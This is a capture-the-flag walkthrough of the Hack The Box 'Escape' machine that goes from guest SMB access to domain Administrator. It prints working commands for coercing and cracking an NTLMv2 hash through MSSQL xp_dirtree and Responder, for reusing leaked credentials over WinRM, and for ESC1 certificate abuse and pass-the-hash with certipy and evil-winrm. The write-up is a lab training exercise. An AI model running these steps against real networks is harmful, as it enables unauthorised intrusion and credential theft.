

# Escape

# Recon

## Nmap

There are many open ports

- 53 for DNS
- 88 for Kerberos
- 389 for LDAP
- 636, 3268 and 3269 for LDAPS
- 135, 139 and 445 for SMB
- 1433 for MSSQL
- And many default ports

```bash
rustscan -a 10.10.11.202 -- -A -Pn
```

```bash
Discovered open port 53/tcp on 10.10.11.202
Discovered open port 135/tcp on 10.10.11.202
Discovered open port 139/tcp on 10.10.11.202
Discovered open port 9389/tcp on 10.10.11.202
Discovered open port 1433/tcp on 10.10.11.202
Discovered open port 445/tcp on 10.10.11.202
Discovered open port 49711/tcp on 10.10.11.202
Discovered open port 49742/tcp on 10.10.11.202
Discovered open port 49667/tcp on 10.10.11.202
Discovered open port 49721/tcp on 10.10.11.202
Discovered open port 88/tcp on 10.10.11.202
Discovered open port 389/tcp on 10.10.11.202
Discovered open port 636/tcp on 10.10.11.202
Discovered open port 593/tcp on 10.10.11.202
Discovered open port 3269/tcp on 10.10.11.202
Discovered open port 3268/tcp on 10.10.11.202
Discovered open port 5985/tcp on 10.10.11.202
Discovered open port 464/tcp on 10.10.11.202
Discovered open port 49689/tcp on 10.10.11.202
Discovered open port 49690/tcp on 10.10.11.202
```

I add the domain name in the /etc/hosts

```bash
echo "10.10.11.202 sequel.htb dc.sequel.htb" | sudo tee -a /etc/hosts
```

# Shell as sql_svc

## SMB(445)

Enumerating shares as guest user.

```bash
nxc smb 10.10.11.202 -u 'a' -p '' --shares
```



Access the share named **`Public`** with **`smbclient`** and download the PDF file.

```bash
smbclient //sequel.htb/Public -N
```


Credentials found in the PDF file.

```bash
user: PublicUser
passsword: GuestUserCantWrite1
```


## MSSQL(1433)

Checking credentials for **`MSSQL`**

```bash
nxc mssql sequel.htb -u 'PublicUser' -p 'GuestUserCantWrite1' --local-auth
```


Connecting to MSSQL server. There are only the default databases of MSSQL.

```bash
impacket-mssqlclient sequel.htb/PublicUser:'GuestUserCantWrite1'@10.10.11.202
```


I continue with command execution. But it was disabled

```bash
xp_cmdshell whoami;
```


I tried to enable it but the user doesn’t have permissions.

```bash
EXEC sp_configure 'xp_cmdshell', 1;
```


## Get the NetNTLMv2 hash

I checked and it seems that we’re able to execute **`xp_dirtree`** (used to list folders) which could be a great way to get NTLMv2 hashes


First I start a **`responder`**. That will start many servers. But I want a SMB server to get a request from the server

```bash
sudo responder -I tun0
```


Next I execute the command so the server will try to list folders from my share. 

```bash
xp_dirtree \\10.10.14.6\share
```


And boom we get the NTLMv2 hash of the user **`sql_svc`**


I put the hash in a file and crack it with john. 

So I get these credentials

```bash
user : sql_svc
password : REGGIE1234ronnie
```

```bash
john sql_svc.hash --wordlist=/usr/share/wordlists/rockyou.txt
```


The credentials are valid

```bash
nxc winrm sequel.htb -u sql_svc -p 'REGGIE1234ronnie'
```


So we can get a shell as **`sql_svc`**

```bash
evil-winrm -i 10.10.11.202 sequel.htb -u sql_svc -p 'REGGIE1234ronnie'
```


# Shell as Ryan.Cooper

I uploaded **`winpeas`** but couldn’t find anything interesting.


Ryan credentials found in **SQLServer** Logs file. The logs are stored in **`C:\SQLServer\Logs\ERRORLOG.BAK`**

```bash
user : ryan.cooper
password : NuclearMosquito3
```


The credentials are valid.

```bash
nxc winrm sequel.htb -u ryan.cooper -p NuclearMosquito3
```


I can get a shell as **`ryan.cooper`**

```bash
evil-winrm -i 10.10.11.202 -u ryan.cooper -p NuclearMosquito3
```


Now I can get the user flag.


# Shell as Administrator

## ESC1

I enumerate certificates.

```bash
certipy find -u ryan.cooper@sequel.htb -p NuclearMosquito3 -dc-ip 10.10.11.202
```


I found a template vulnerable to ESC1.


Now I can request a certificate as the user Administrator

```bash
certipy req -u "ryan.cooper@sequel.htb" -p "NuclearMosquito3" -dc-ip "10.10.11.202" -target "sequel.htb" -ca 'sequel-DC-CA' -template 'UserAuthentication' -upn 'administrator'
```


## Pass the Certficate

Now I tried to get a **`TGT`** but It didn’t work since the time on my machine and the target isn’t synchronized.

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.202 -username administrator -domain sequel.htb
```


I synchronized the time with **`ntpdate` .**

```bash
sudo ntpdate sequel.htb
```


I request again a **`TGT`** a get the hash of Administrator


And now I get a shell as administrator

```bash
evil-winrm -i 10.10.11.202 -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```


I can now the get the root flag.

